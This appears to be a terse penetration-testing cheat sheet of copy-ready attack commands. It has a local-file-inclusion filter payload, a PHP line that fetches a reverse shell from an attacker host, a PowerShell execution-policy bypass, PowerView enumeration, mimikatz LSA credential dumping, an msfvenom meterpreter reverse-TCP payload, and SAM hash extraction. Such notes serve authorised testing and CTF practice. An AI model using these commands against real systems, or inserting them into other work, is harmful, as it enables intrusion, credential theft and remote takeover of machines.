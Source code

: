 # lfi
```
php://filter/convert.base64-encode/resource=index
```

```
<?php file_put_contents('php-reverse-shell.php',file_get_contents('http://[LHOST]/php-reverse-shell.php')); ?>
```

# powershell

```
powershell -ep bypass
```

## powerview
### share folder
```
Invoke-ShareFinder
```
### operating system
```
Get-NetComputer -fulldata | select operatingsystem
```
# mimikatz
```
privilege::debug
```

```
lsadump::lsa /patch
```
# msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe
```
# windows

## metapreter
### mimikatz
```
meterpreter > load kiwi
```

## samdump2
```
python2 creddump7/pwdump.py SYSTEM SAM
```
